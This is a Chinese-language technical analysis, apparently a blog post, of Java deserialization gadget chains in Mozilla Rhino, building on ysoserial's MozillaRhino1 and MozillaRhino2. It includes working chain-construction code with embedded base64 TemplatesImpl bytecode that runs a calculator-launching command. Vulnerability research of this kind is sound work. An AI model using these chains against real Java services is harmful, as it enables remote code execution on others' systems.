至于如何在反序列化时调用 toString 方法，可以使用前面提到的 BadAttributeValueExpException 利用链。
到了这里是不是整个调用链就串联起来了？还不够，现实没有那么美好，回看 ScriptableObject#getValue 方法
Object getValue(Scriptable start) {
if (getter != null) {
if (getter instanceof MemberBox) {
MemberBox nativeGetter = (MemberBox)getter;
Object getterThis;
Object[] args;
if (nativeGetter.delegateTo == null) {
getterThis = start;
args = ScriptRuntime.emptyArgs;
} else {
getterThis = nativeGetter.delegateTo;
args = new Object[] { start };
}
return nativeGetter.invoke(getterThis, args);对象 getterThis 值是否可控呢？答案是不完全可控，因为按照前面的分析 [10]，它只能是 NativeError，但是纵观整个 NativeError 都没有可以拿来执行命令或代码等方法。而且需要注意能够被调用的方法，参数要么是空，要么类型与 Scriptable 兼容。
但是不着急，这个方法给了第二个选择，Function
@Override
Object getValue(Scriptable start) {
if (getter != null) {
if (getter instanceof MemberBox) {
// ...
} else {
Function f = (Function)getter;
Context cx = Context.getContext();
return f.call(cx, f.getParentScope(), start,
ScriptRuntime.emptyArgs);
}
}Function 接口是所有 JS 中的方法都需要实现的接口。
This is interface that all functions in JavaScript must implement. The interface provides for calling functions and constructors.
NativeJavaMethod
但最有意思的是 Rhino 引擎支持在 JS 中调用 Java 方法，这点和 BeanShell 类似。Function 的实现类 NativeJavaMethod 则用于表示 Java 方法，内部通过反射机制进行调用。
查看 NativeJavaMethod#call 方法，
@Override
public Object call(Context cx, Scriptable scope, Scriptable thisObj,
Object[] args)
{
// Find a method that matches the types given.
if (methods.length == 0) {
throw new RuntimeException("No methods defined for call");
}
int index = findFunction(cx, methods, args);
// ...
MemberBox meth = methods[index];
Class<?>[] argTypes = meth.argTypes;
// 参数转换为 Java 中的类型
if (meth.vararg) {
// ...
} else {
// First, we marshall the args.
// ...
}
Object javaObject;
if (meth.isStatic()) {
javaObject = null; // don't need an object
} else {
Scriptable o = thisObj;
Class<?> c = meth.getDeclaringClass();
for (;;) {
if (o == null) {
throw Context.reportRuntimeError3(
"msg.nonjava.method", getFunctionName(),
ScriptRuntime.toString(thisObj), c.getName());
}
if (o instanceof Wrapper) {
javaObject = ((Wrapper)o).unwrap();
if (c.isInstance(javaObject)) {
break;
}
}
o = o.getPrototype();
}
}
Object retval = meth.invoke(javaObject, args); // [11] 调用方法 meth
// ...
}先查看 [11] 中的 javaObject 是否可控，观察上下文， javaObject 有两种可能来源：
- 直接来自
o.unwrap()， - 先调用
thisObj.getPrototype()（如果o没有实现Wrapper接口），再调用o.unwrap()，
如果 thisObj 为 NativeError，那么实际调用的就是 ScriptableObject#getPrototype （因为 NativeError 没有自己实现 Wrapper，为第二种情况）
public Scriptable getPrototype() {
return prototypeObject;
}方法返回的就是前面提到成员 prototypeObject，参数呢？固定为 ScriptRuntime.emptyArgs = new Object[0]。而方法 meth 则来自 NativeJavaMethod 的成员 methods。
也就是说找到一个能够触发命令执行的类的无参方法就基本拼接起一整条的利用链了。这一点可以使用 TemplatesImpl 利用链 。
NativeJavaObject
前面提到了 ScriptableObject 的成员 prototypeObject，它的类型为 Scriptable。这里需要找一个 Wrapper 的实现类，它也实现了 Scriptable，并且 unwrap 方法返回的对象可控。
它就是 NativeJavaObject，实现了 Serializable 接口，unwrap 方法则是直接返回成员 javaObject。
public Object unwrap() {
return javaObject;
}所以可以将 NativeError 的成员 prototypeObject 设置为一个 NativeJavaObject 对象。
RhinoExec.java
有了前面的基础，就可以开始尝试构造利用链了，这里需要注意到地方 NativeError 是内部类，外部无法直接访问，需要用到 Class#forName。
在第一次分析完后，花了点时间写了如下的构造代码，整个过程不算很顺利，因为很多类无法直接访问，需要大量使用反射。
public static Object getObject() throws Exception {
Class<?> nativeErrorClass = Class.forName("org.mozilla.javascript.NativeError");
ScriptableObject nativeError =
(ScriptableObject) Reflections.createWithoutConstructor(nativeErrorClass);
// 通过 ScriptableObject.getSlot 方法构造并赋值
// 第三个参数设置为 4，创建的才会是 GetterSlot
Object slot = Reflections.getMethod(ScriptableObject.class, "getSlot", String.class, int.class, int.class)
.invoke(nativeError, "name", 0, 4);
// 设定动态调用的方法为 TemplatesImpl#newTransformer
Method templateMethod = Reflections.getMethod(TemplatesImpl.class, "newTransformer");
// 创建 NativeJavaMethod
NativeJavaMethod nativeJavaMethod = new NativeJavaMethod(templateMethod, "exec");
Reflections.setFieldValue(slot, "getter", nativeJavaMethod);
// TemplatesImpl 利用链
TemplatesImpl templatesImpl = new TemplatesImpl();
Reflections.setFieldValue(templatesImpl, "_name", "evil");
Reflections.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
byte[] code =
Base64.getDecoder()
.decode(
"yv66vgAAADQAKQoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACkV4Y2VwdGlvbnMHACIBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEAEUV2aWxUcmFuc2xldC5qYXZhDAAKAAsHACMMACQAJQEAEm9wZW4gLWEgY2FsY3VsYXRvcgwAJgAnAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uDAAKACgBAAxFdmlsVHJhbnNsZXQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAABAABAAoACwABAAwAAAAdAAEAAQAAAAUqtwABsQAAAAEADQAAAAYAAQAAAAkAAQAOAA8AAgAMAAAAGQAAAAMAAAABsQAAAAEADQAAAAYAAQAAABUAEAAAAAQAAQARAAEADgASAAIADAAAABkAAAAEAAAAAbEAAAABAA0AAAAGAAEAAAAaABAAAAAEAAEAEQAIABMACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAADAAJAA8ADAANAA0ADgAWABAAFAAAAAcAAkwHABUJAAEAFgAAAAIAFw==");
Reflections.setFieldValue(templatesImpl, "_bytecodes", new byte[][] {code});
// 创建 NativeJavaObject
Context context = Context.enter();
NativeObject scriptableObject = (NativeObject) context.initStandardObjects();
NativeJavaObject nativeJavaObject = new NativeJavaObject(scriptableObject, templatesImpl, TemplatesImpl.class);
Reflections.setFieldValue(nativeError, "prototypeObject", nativeJavaObject);
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
Reflections.setFieldValue(badAttributeValueExpException, "val", nativeError);
return badAttributeValueExpException;
}兴高采烈的用如下代码测试
public static void main(String[] args) throws Exception {
ObjectOutputStream oos =
new ObjectOutputStream(
Files.newOutputStream(Paths.get("target/RhinoExec.bin")));
oos.writeObject(getObject());
ObjectInputStream ois =
new ObjectInputStream(
Files.newInputStream(Paths.get("target/RhinoExec.bin")));
ois.readObject();
}确实成功弹窗了

No Context 错误
习惯性注释掉序列化的代码，再次执行时却没有任何内容，而是出现了异常。
Exception in thread "main" java.lang.RuntimeException: No Context associated with current Thread
at org.mozilla.javascript.Context.getContext(Context.java:2355)
at org.mozilla.javascript.ScriptableObject$GetterSlot.getValue(ScriptableObject.java:338)Rhino 执行脚本时需要有一个线程相关的 Context，用于存储执行环境的信息，这一点是必须的。创建 Context 最简单的方式如下
Context cx = Context.enter();
// 执行完脚本后通过 exit 方法退出
Context.exit();而前面的代码中，只有 getObject 方法会调用 Context.enter()，而这只在序列化时被调用了。所以在反序列化前的代码中，加一行 Context.enter(); 就可以了，但这样实战意义就不大了，有没有办法在反序列化时先调用 Context#enter，再执行命令？
MozillaRhinoBadAttributeValueExpExceptionExec.java
前面已经提到，有能力在反序化时动态调用方法了，而 Context#enter 方法刚好也是无参的，满足调用条件。但是还有一个问题，得保证链条被调用两次，至少在 GetterSlot#getValue 被调用前。
回看 NativeError#js_toString 方法，它刚好有调用 ScriptableObject.getProperty 两次。
private static Object js_toString(Scriptable thisObj) {
Object name = ScriptableObject.getProperty(thisObj, "name"); // 第一次调用
if (name == NOT_FOUND || name == Undefined.instance) {
name = "Error";
} else {
name = ScriptRuntime.toString(name);
}
Object msg = ScriptableObject.getProperty(thisObj, "message"); // 第二次调用所以只要让第一次调用去执行 Context#enter，第二次再执行具备攻击性的方法。要注意一点，第一次调用到第二次调用之间不要出现异常或错误，否则会失败。
另外异常的触发点位于 getValue 方法中的 Function 的调用前，所以，无法使用 Function 调用 Context#enter 方法，这里需要直接使用 MemberBox
@Override
Object getValue(Scriptable start) {
if (getter != null) {
if (getter instanceof MemberBox) {
MemberBox nativeGetter = (MemberBox)getter;
Object getterThis;
Object[] args;
if (nativeGetter.delegateTo == null) {
getterThis = start;
args = ScriptRuntime.emptyArgs;
} else {
getterThis = nativeGetter.delegateTo;
args = new Object[] { start };
}
return nativeGetter.invoke(getterThis, args);
} else {
Function f = (Function)getter;
Context cx = Context.getContext();
return f.call(cx, f.getParentScope(), start,
ScriptRuntime.emptyArgs);
}
}由于 Context#enter 是一个静态方法，所以即使 getterThis 类型为 NativeError 也不会有影响。下面为修改后的代码
public static Object getObject() throws Exception {
Class<?> nativeErrorClass = Class.forName("org.mozilla.javascript.NativeError");
ScriptableObject nativeError =
(ScriptableObject) Reflections.createWithoutConstructor(nativeErrorClass);
// 创建第一个 GetterSlot 调用 `Context#enter` 方法
// 第一个参数为 "name" 因为 js_toString 中 ScriptableObject#getProperty 的第二个参数为 name；第三个参数设置为 4，创建的才会是
// GetterSlot
Object nameSlot =
Reflections.getMethod(
ScriptableObject.class,
"getSlot",
String.class,
int.class,
int.class)
.invoke(nativeError, "name", 0, 4);
// 设定动态调用的方法为 Context#enter
Method enterMethod = Reflections.getMethod(Context.class, "enter");
// 创建 MemberBox
Class<?> memberBoxErrorClass = Class.forName("org.mozilla.javascript.MemberBox");
Object memberBox = Reflections.createWithoutConstructor(memberBoxErrorClass);
Reflections.getMethod(memberBoxErrorClass, "init", Method.class).invoke(memberBox, enterMethod);
Reflections.setFieldValue(nameSlot, "getter", memberBox);
// 创建第二个 GetterSlot 调用 `TemplatesImpl#newTransformer` 方法
// 第一个参数为 "message" 因为 js_toString 中 ScriptableObject#getProperty 的第二个参数为 message；第三个参数设置为 4，创建的才会是
// GetterSlot
Object messageSlot =
Reflections.getMethod(
ScriptableObject.class,
"getSlot",
String.class,
int.class,
int.class)
.invoke(nativeError, "message", 0, 4);
// 设定动态调用的方法为 TemplatesImpl#newTransformer
Method templateMethod = Reflections.getMethod(TemplatesImpl.class, "newTransformer");
// 创建 NativeJavaMethod
NativeJavaMethod transformerJavaMethod = new NativeJavaMethod(templateMethod, "templates");
Reflections.setFieldValue(messageSlot, "getter", transformerJavaMethod);
// TemplatesImpl 利用链
TemplatesImpl templatesImpl = new TemplatesImpl();
Reflections.setFieldValue(templatesImpl, "_name", "evil");
Reflections.setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());
byte[] code =
Base64.getDecoder()
.decode(
"yv66vgAAADQAKQoACQAYCgAZABoIABsKABkAHAcAHQcAHgoABgAfBwAgBwAhAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACkV4Y2VwdGlvbnMHACIBAKYoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvZHRtL0RUTUF4aXNJdGVyYXRvcjtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIPGNsaW5pdD4BAA1TdGFja01hcFRhYmxlBwAdAQAKU291cmNlRmlsZQEAEUV2aWxUcmFuc2xldC5qYXZhDAAKAAsHACMMACQAJQEAEm9wZW4gLWEgY2FsY3VsYXRvcgwAJgAnAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uDAAKACgBAAxFdmlsVHJhbnNsZXQBAEBjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvcnVudGltZS9BYnN0cmFjdFRyYW5zbGV0AQA5Y29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQARamF2YS9sYW5nL1J1bnRpbWUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7AQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAGChMamF2YS9sYW5nL1Rocm93YWJsZTspVgAhAAgACQAAAAAABAABAAoACwABAAwAAAAdAAEAAQAAAAUqtwABsQAAAAEADQAAAAYAAQAAAAkAAQAOAA8AAgAMAAAAGQAAAAMAAAABsQAAAAEADQAAAAYAAQAAABUAEAAAAAQAAQARAAEADgASAAIADAAAABkAAAAEAAAAAbEAAAABAA0AAAAGAAEAAAAaABAAAAAEAAEAEQAIABMACwABAAwAAABUAAMAAQAAABe4AAISA7YABFenAA1LuwAGWSq3AAe/sQABAAAACQAMAAUAAgANAAAAFgAFAAAADAAJAA8ADAANAA0ADgAWABAAFAAAAAcAAkwHABUJAAEAFgAAAAIAFw==");
Reflections.setFieldValue(templatesImpl, "_bytecodes", new byte[][] {code});
// 创建 NativeJavaObject
Context context = Context.enter();
NativeObject scriptableObject = (NativeObject) context.initStandardObjects();
NativeJavaObject nativeJavaObject =
new NativeJavaObject(scriptableObject, templatesImpl, TemplatesImpl.class);
Reflections.setFieldValue(nativeError, "prototypeObject", nativeJavaObject);
BadAttributeValueExpException badAttributeValueExpException =
new BadAttributeValueExpException(null);
Reflections.setFieldValue(badAttributeValueExpException, "val", nativeError);
return badAttributeValueExpException;
}简化版调用关系梳理
BadAttributeValueExpException.readObject
// 调用 NativeError.toString 方法
val.toString()
js_toString()
ScriptableObject.getProperty(thisObj, "name");
// 获取第一个 GetterSlot，调用 IdScriptableObject#get
obj.get(name, start);
// 调用 ScriptableObject#get
super.get(name, start)
getImpl
// 获取名称为 name 的 GetterSlot
getSlot(name, index, SLOT_QUERY);
// Getter#getValue
slot.getValue(start);
// 动态调用 Context#enter 方法
nativeGetter.invoke(getterThis, args);
ScriptableObject.getProperty(thisObj, "message");
// 获取第二个 GetterSlot
obj.get(name, start);
// 调用 ScriptableObject#get
super.get(name, start)
getImpl
// 获取名称为 message 的 GetterSlot
getSlot(name, index, SLOT_QUERY);
// Getter#getValue
slot.getValue(start);
// NativeJavaMethod#call 方法
f.call(cx, f.getParentScope(), start,
ScriptRuntime.emptyArgs)
// 动态调用 TemplatesImpl#newTransformer 方法
meth.invoke(javaObject, args);ysoserial/MozillaRhino1
yso 的构造方法比 MozillaRhinoBadAttributeValueExpExceptionExec.java 要简单的多，用到了很多已有多接口，减少反射的使用
public Object getObject(final String command) throws Exception {
// 创建 NativeError 实例对象
Class nativeErrorClass = Class.forName("org.mozilla.javascript.NativeError");
Constructor nativeErrorConstructor = nativeErrorClass.getDeclaredConstructor();
Reflections.setAccessible(nativeErrorConstructor);
IdScriptableObject idScriptableObject = (IdScriptableObject) nativeErrorConstructor.newInstance();
Context context = Context.enter();
NativeObject scriptableObject = (NativeObject) context.initStandardObjects();
Method enterMethod = Context.class.getDeclaredMethod("enter");
NativeJavaMethod method = new NativeJavaMethod(enterMethod, "name");
// 创建第一个名为 name 的 GetterSlot 并设置它的 getter 成员
idScriptableObject.setGetterOrSetter("name", 0, method, false);
Method newTransformer = TemplatesImpl.class.getDeclaredMethod("newTransformer");
NativeJavaMethod nativeJavaMethod = new NativeJavaMethod(newTransformer, "message");
// 创建第二个名为 message 的 GetterSlot 并设置它的 getter 成员，类型为 NativeJavaMethod，调用 TemplatesImpl#newTransformer 方法
idScriptableObject.setGetterOrSetter("message", 0, nativeJavaMethod, false);
Method getSlot = ScriptableObject.class.getDeclaredMethod("getSlot", String.class, int.class, int.class);
Reflections.setAccessible(getSlot);
// 获取名为 name 的 GetterSlot 的 getter 成员
Object slot = getSlot.invoke(idScriptableObject, "name", 0, 1);
Field getter = slot.getClass().getDeclaredField("getter");
Reflections.setAccessible(getter);
Class memberboxClass = Class.forName("org.mozilla.javascript.MemberBox");
Constructor memberboxClassConstructor = memberboxClass.getDeclaredConstructor(Method.class);
Reflections.setAccessible(memberboxClassConstructor);
Object memberboxes = memberboxClassConstructor.newInstance(enterMethod);
// 设置名为 name 的 GetterSlot的 getter，为 MemberBox 实例对象，用于调用 Context#enter 方法
getter.set(slot, memberboxes);
NativeJavaObject nativeObject = new NativeJavaObject(scriptableObject, Gadgets.createTemplatesImpl(command), TemplatesImpl.class);
// 设置 NativeError 实例对象的 prototypeObject 成员
idScriptableObject.setPrototype(nativeObject);
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
Field valField = badAttributeValueExpException.getClass().getDeclaredField("val");
Reflections.setAccessible(valField);
valField.set(badAttributeValueExpException, idScriptableObject);
return badAttributeValueExpException;
}不使用 BadAttributeValueExpException
ysoserial/MozillaRhino2 里提到了另一种构造方法，不使用 BadAttributeValueExpException，仅依赖 Rhino 完成利用链的构造。这里先不讨论它是如何实现的，如果是你，可以做到仅使用 Rhino 完成利用链的构造吗？
下面的构造方式主要使用 NativeJavaObject ，其它都和前面类似，只是像积木一样拼接起来而已。
查看 NativeJavaObject#readObject 方法，里面有一行调用了静态成员 adapter_readAdapterObject，
private void readObject(ObjectInputStream in)
throws IOException, ClassNotFoundException
{
in.defaultReadObject();
isAdapter = in.readBoolean();
if (isAdapter) {
if (adapter_readAdapterObject == null)
throw new ClassNotFoundException();
Object[] args = { this, in };
try {
javaObject = adapter_readAdapterObject.invoke(null, args);
} catch (Exception ex) {
throw new IOException();
}
} else {
javaObject = in.readObject();
}
String className = (String)in.readObject();
if (className != null) {
staticType = Class.forName(className);
} else {
staticType = null;
}
initMembers();
}adapter_readAdapterObject 默认对应的是 JavaAdapter#readAdapterObject 方法，还有一个对应的成员 adapter_writeAdapterObject 默认对应 JavaAdapter#writeAdapterObject 方法。
public static Object readAdapterObject(Scriptable self,
ObjectInputStream in)
throws IOException, ClassNotFoundException
{
ContextFactory factory;
Context cx = Context.getCurrentContext();
if (cx != null) {
factory = cx.getFactory();
} else {
factory = null;
}
Class<?> superClass = Class.forName((String)in.readObject());
String[] interfaceNames = (String[])in.readObject();
Class<?>[] interfaces = new Class[interfaceNames.length];
for (int i=0; i < interfaceNames.length; i++)
interfaces[i] = Class.forName(interfaceNames[i]);
// delegee 的类型需要为 Scriptable
Scriptable delegee = (Scriptable)in.readObject();
Class<?> adapterClass = getAdapterClass(self, superClass, interfaces, delegee); // [12]跟入 [12] 调用 getAdapterClass
private static Class<?> getAdapterClass(Scriptable scope, Class<?> superClass,
Class<?>[] interfaces, Scriptable obj)
{
ClassCache cache = ClassCache.get(scope);
Map<JavaAdapterSignature,Class<?>> generated
= cache.getInterfaceAdapterCacheMap();
ObjToIntMap names = getObjectFunctionNames(obj); // [13]最后来到 getObjectFunctionNames，[13]
private static ObjToIntMap getObjectFunctionNames(Scriptable obj) {
Object[] ids = ScriptableObject.getPropertyIds(obj);
ObjToIntMap map = new ObjToIntMap(ids.length);
for (int i = 0; i != ids.length; ++i) {
if (!(ids[i] instanceof String))
continue;
String id = (String) ids[i];
Object value = ScriptableObject.getProperty(obj, id);
if (value instanceof Function) {
Function f = (Function)value;
int length = ScriptRuntime.toInt32(
ScriptableObject.getProperty(f, "length"));
if (length < 0) {
length = 0;
}
map.put(id, length);
}
}
return map;
}在内部可以看到对 ScriptableObject.getProperty(obj, id) 方法的调用，不过第二个参数不再是固定值了，这个参数由 ScriptableObject.getPropertyIds(obj) 的返回值决定。
那么只需要想办法触发两次 JavaAdapter#readAdapterObject 方法调用，第一次调用 Context.enter() 初始化 Context，第二次执行命令。或是如果 ids 的大小为 2，并且顺序可控，只需触发 JavaAdapter#readAdapterObject 方法调用一次。
无论是哪一种，要做到都不太容易，此外还要确保能正常调用到 getObjectFunctionNames，不出现异常。
尝试先初始化 Context
下面先考虑第一步，调用 Context.enter() 初始化 Context，不考虑后续利用。要怎么构造？这中间需要注意的一些条件还是挺多的。下面是一种实现方式
public static Object getContextObject() throws Exception {
// 创建一个 ScriptableObject 对象，用于设置 NativeJavaObject 的成员 prototype
// 此 ScriptableObject 对象的成员 associatedValues 是一个 Hashtable 对象，需要包含 key 值 "ClassCache"。
ScriptableObject dummyScope = new Environment();
Map<Object, Object> associatedValues = new Hashtable<>();
associatedValues.put("ClassCache", Reflections.createWithoutConstructor(ClassCache.class));
Reflections.setFieldValue(dummyScope, "associatedValues", associatedValues);
// 创建第一个 GetterSlot 调用 `Context#enter` 方法，第三个参数设置为 4，创建的才会是 GetterSlot
ScriptableObject scriptableObject = new Environment();
Object nameSlot =
Reflections.getMethod(
ScriptableObject.class,
"getSlot",
String.class,
int.class,
int.class)
.invoke(scriptableObject, "foo", 0, 4);
// 设定动态调用的方法为 Context#enter
Method enterMethod = Reflections.getMethod(Context.class, "enter");
// 创建 MemberBox
Class<?> memberBoxErrorClass = Class.forName("org.mozilla.javascript.MemberBox");
Object memberBox = Reflections.createWithoutConstructor(memberBoxErrorClass);
Reflections.getMethod(memberBoxErrorClass, "init", Method.class)
.invoke(memberBox, enterMethod);
Reflections.setFieldValue(nameSlot, "getter", memberBox);
NativeJavaObject nativeJavaObject = new NativeJavaObject();
Reflections.setFieldValue(nativeJavaObject, "javaObject", scriptableObject);
Reflections.setFieldValue(nativeJavaObject, "isAdapter", true);
Method method =
MozillaRhinoExec.class.getMethod(
"customWriteAdapterObject", Object.class, ObjectOutputStream.class);
Reflections.setFieldValue(nativeJavaObject, "adapter_writeAdapterObject", method);
Reflections.setFieldValue(nativeJavaObject, "prototype", dummyScope);
return nativeJavaObject;
}这里构建了一个 dummyScope 对象，并修改了成员 associatedValues 的值。这一步，是为了保证在 [12] 中调用 getAdapterClass 时确保 ClassCache.get(scope) 正常返回，否则会抛出异常。
public static ClassCache get(Scriptable scope) {
ClassCache cache = (ClassCache)
ScriptableObject.getTopScopeValue(scope, AKEY);
if (cache == null) {
throw new RuntimeException("Can't find top level scope for " +
"ClassCache.get");
}
return cache;
}
public static Object getTopScopeValue(Scriptable scope, Object key) {
scope = ScriptableObject.getTopLevelScope(scope);
for (;;) {
if (scope instanceof ScriptableObject) {
ScriptableObject so = (ScriptableObject)scope;
Object value = so.getAssociatedValue(key);
if (value != null) {
return value;
}
}
scope = scope.getPrototype();
if (scope == null) {
return null;
}
}其次修改 adapter_writeAdapterObject 为自定义方法，确保在执行到所需方法前不尝试异常。
public static void customWriteAdapterObject(Object javaObject, ObjectOutputStream out)
throws IOException {
out.writeObject("java.lang.Object");
out.writeObject(new String[0]);
// 写入成员 javaObject
out.writeObject(javaObject);
}ScriptableObject.getPropertyIds(obj)
这里再还有一个很关键的地方，在 [13] 的 getObjectFunctionNames 方法中，ScriptableObject.getPropertyIds(obj); 返回的内容是如何得到的？这里以前面的构造的示例代码进行说明
public static Object[] getPropertyIds(Scriptable obj) {
if (obj == null) {
return ScriptRuntime.emptyArgs;
}
// 调用 ScriptableObject.getIds(boolean getAll)，遍历链表 firstAdded 中每个 slot 的 name 值并返回
Object[] result = obj.getIds();
ObjToIntMap map = null;
for (;;) {
// 获取成员 prototypeObject，前面的示例代码中，为 null
obj = obj.getPrototype();
if (obj == null) {
break;
}
// 如果 prototypeObject 不为 null，继续调用获取所有 id，依赖具体实现
Object[] ids = obj.getIds();
if (ids.length == 0) {
continue;
}
// ...
}
if (map != null) {
result = map.getKeys();
}
return result;
}总结如下：
obj的类型没有重写getIds方法的话则返回其slot的name列表，- 如果
prototypeObject不为null，继续调用获取所有id，依赖具体实现
- 如果
obj的类型重写了getIds方法，则返回对应的内容- 如果
prototypeObject不为null，继续调用获取所有id，依赖具体实现
- 如果
那么对于前面的示例代码，这一步返回的只会包含构造的 Slot 的 name，为 foo。

如何再调用 NativeJavaObject.readObject
最开始尝试的是让 ScriptableObject.getPropertyIds(obj)，返回的 ids 仅包含两个 Slot 的 name。不过这一点做不到『至少按照前面分析使用的调用 TemplatesImpl#newTransformer 方法的利用链构造方式是做不到的』，因为如果这样，obj 的 prototypeObject 一定不为 null，而是一个 NativeJavaObject 对象。它的 getIds 方法如下，
public Object[] getIds() {
return members.getIds(false);
}会返回 member 中所有的 key 值，也就是类 TemplatesImpl 中的成员名。member 由 NativeJavaObject#initMembers 方法计算得到。
可通过调试
MozillaRhinoExec.java文件的getObjectTest方法来帮助理解。
那么就要确保返回的 ids 中内容的顺序了，但 ObjToIntMap 的 intern 方法是如何计算 key 值存放顺序的，有些复杂，不太好控制，所以这种方式并不是很好。最好的方式是，ids 每次只包含一条内容。
但是通过测试，发现可以枚举找到一个 name，让它能排在 ObjToIntMap 返回值的第一个『假设 member 由 TemplatesImpl 计算得到』，这个 name 就是 yy。当然，这不是唯一解。但这样做有什么用呢？考虑第二种构造方案
- 触发两次
JavaAdapter#readAdapterObject方法调用- 第一次用于调用
Context#enter - 第二次用于调用
TemplatesImpl#newTransformer
- 第一次用于调用
思路不难，反序列化时会先恢复成员，再恢复整个对象。例如一个对象类型为 Environment ，有成员 parentScopeObject，并且它也实现了 readObjecct 方法，那么 in.defaultReadObject(); 会先调用 parentScopeObject 的 readObjecct 方法恢复 parentScopeObject 对象，再恢复整体。
MozillaRhinoExec.java
下面是实现代码，
public static Object getObject() throws Exception {
ScriptableObject dummyScope = new Environment();
Map<Object, Object> associatedValues = new Hashtable<>();
associatedValues.put("ClassCache", Reflections.createWithoutConstructor(ClassCache.class));
Reflections.setFieldValue(dummyScope, "associatedValues", associatedValues);
Environment env = new Environment();
Object messageSlot =
Reflections.getMethod(
ScriptableObject.class,
"getSlot",
String.class,
int.class,
int.class)
.invoke(env, "yy", 0, 4);
// 设定动态调用的方法为 TemplatesImpl#newTransformer
Method templateMethod = Reflections.getMethod(TemplatesImpl.class, "newTransformer");
// 创建 NativeJavaMethod
NativeJavaMethod transformerJavaMethod = new NativeJavaMethod(templateMethod, "templates");
Reflections.setFieldValue(messageSlot, "getter", transformerJavaMethod);
// 创建 NativeJavaObject
NativeJavaObject nativeJavaObject =
new NativeJavaObject(dummyScope, templatesImpl(), TemplatesImpl.class);
Reflections.setFieldValue(env, "prototypeObject", nativeJavaObject);
NativeJavaObject outer = new NativeJavaObject();
Reflections.setFieldValue(outer, "javaObject", env);
Reflections.setFieldValue(outer, "isAdapter", true);
Reflections.setFieldValue(outer, "adapter_writeAdapterObject", method);
Reflections.setFieldValue(outer, "prototype", dummyScope);
Reflections.setFieldValue(env, "parentScopeObject", getContextObject());
return outer;
}其中 getContextObject() 需要稍微修改一下，在返回前添加一行代码，这是为了确保第一次 JavaAdapter#readAdapterObject 方法调用后，能够继续正确执行。
// parent 不能为 null，因为 NativeJavaObject#readObject 中，javaObject =
// adapter_readAdapterObject.invoke(null, args); 成功返回后会调用 initMembers();
Reflections.setFieldValue(nativeJavaObject, "parent", dummyScope);这里将需要用于初始化 Context 对象的利用链部分放在了 env 的 parentScopeObject 成员中，内嵌关系如下
NativeJavaObject // 通过 env 调用 TemplatesImpl#newTransformer 执行命令
-> javaObject(env)
-> env.parentScopeObject(NativeJavaObject) // 调用 Context#enter 初始化 Context简化版调用关系梳理
NativeJavaObject.readObject
// 恢复 getObject() 中的 env，类型 Environment
ScriptableObject.readObject
// 调用 JavaAdapter#readAdapterObject 方法
adapter_readAdapterObject.invoke(null, args);
// 再次触发 NativeJavaObject.readObject，此时 isAdapter 依旧是 true
(Scriptable)in.readObject();
// 恢复 getContextObject() 中的 scriptableObject，类型 Environment
ScriptableObject.readObject
NativeJavaObject.readObject
// 第二次调用 JavaAdapter#readAdapterObject 方法
adapter_readAdapterObject.invoke(null, args);
// 获取 delegee，包含 name 为 'foo' 的 slot
(Scriptable)in.readObject();
getAdapterClass(self, superClass, interfaces, delegee);
getObjectFunctionNames(obj);
// 动态调用 Context#enter 方法
